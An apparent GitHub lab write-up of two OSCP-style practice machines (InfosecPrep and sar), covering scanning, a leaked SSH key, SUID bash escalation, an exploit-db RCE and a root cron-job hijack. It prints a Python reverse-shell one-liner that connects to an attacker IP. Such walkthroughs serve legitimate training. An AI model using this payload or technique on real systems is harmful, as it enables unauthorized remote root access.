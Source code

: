 # InfosecPrep 192.168.239.89

## Service Scanning
In this step i uesed <b> nmap </b>  with option -sV 
``` man
  -sV : Probe open ports to determine service/version info
```
* <b>result :</b>
  
![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.16.10.png)

as shown in the image below I got in result open port 80 running HTTP server and 22 running ssh. now I know that there is a web app on this server I get into the web app and found a website hosted using WordPress and an article on the website. image to the website after reading the article I can see a small hint about the user of this box. now the service scanning step is done we can go to the next step .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.16.39.png)
 ## Web Enumeration

In this step, I used Directory/File Enumeration using the ffuf tool with a common wordlist.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.20.09.png)

from ffuf result i can see that there is a robots.txt i check it and found a dissalowed dirctory i check it too and found secrect.txt .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.22.33.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.23.03.png)

the secret.txt contain encrypted data after I decode it with the base64 tool I got an ssh private key and this is a sensitive data shared publicly I can use it to ssh to the server remotely using `ssh -i option` because I already know the username,
after access to the server now we are in but only as oscp user, we want to go as root so we will check if the is any way to upgrade Privilege to root so this is the next step.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.25.49.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.26.22.png)

## Privilege Escalation

After access to the machine, we will check how we can do Privilege Escalation, there is a command I used to check if there is  SUID (Set owner User ID up on execution) .

`find / -perm -u=s 2> /dev/null`

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.28.16.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.30.16.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.30.29.png)

as we can see there are some binaries as SUID we can check GTObin how we can use this binary to escalate privilege to root, from the result we can see that bash in the list and from https://gtfobins.github.io/ we can see that bash can escalate privilege using `bash -p`

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.31.00.png)

and finally, we are root.

# sar 192.168.239.89

In this machine, I did all the same steps as the first machine but in the step 
<b>Web Enumeration </b> I didn't find any sensitive data I found only a directory to sar2HTML I check that directory and I got a SAR service running on the server I check if the version of SAR fi it exploit and from https://www.exploit-db.com/exploits/47204 I can see there is a vulnerable I can use it to run shell code execution as a reverse shell what I did first I check ls command and `whoaim` after that I run the server with NC listening in my IP and port I provide and established a connection using a socket with help of python command finally I have a shell from the server I'm now as the www-data user.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.35.06.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.35.46.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.37.35.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.38.01.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.38.13.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.38.54.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.39.31.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.40.07.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.41.40.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.42.42.png)


## Privilege Escalation

In this machine also checked if there is any binary to use to escalate privilege but unfortunately I did not find any so I checked crontab I found there is a script called finally.sh run every 5 minutes with root permission so find this script location I cat it and got that script called other script called write.sh but write.sh owned by www-data and finnaly.sh with root user so i can use this to make crontab run something for me as root by changing the write.sh so what I did i removed the write.sh from server i and i create new now in my machine with.
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.239",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
and run an HTTP server from my machine and download it to the server using `wget` after that i changed permission to make it executable because the finnaly.sh script call write.sh script with ./write needs permission to execute now all I need to wait for 5 minutes waiting for crontab to get the reverse shell with as root.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.44.19.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.44.47.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.44.56.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.45.10.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.52.00.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.52.47.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2000.57.14.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/Screen%20Shot%202022-10-05%20at%2001.05.16.png)
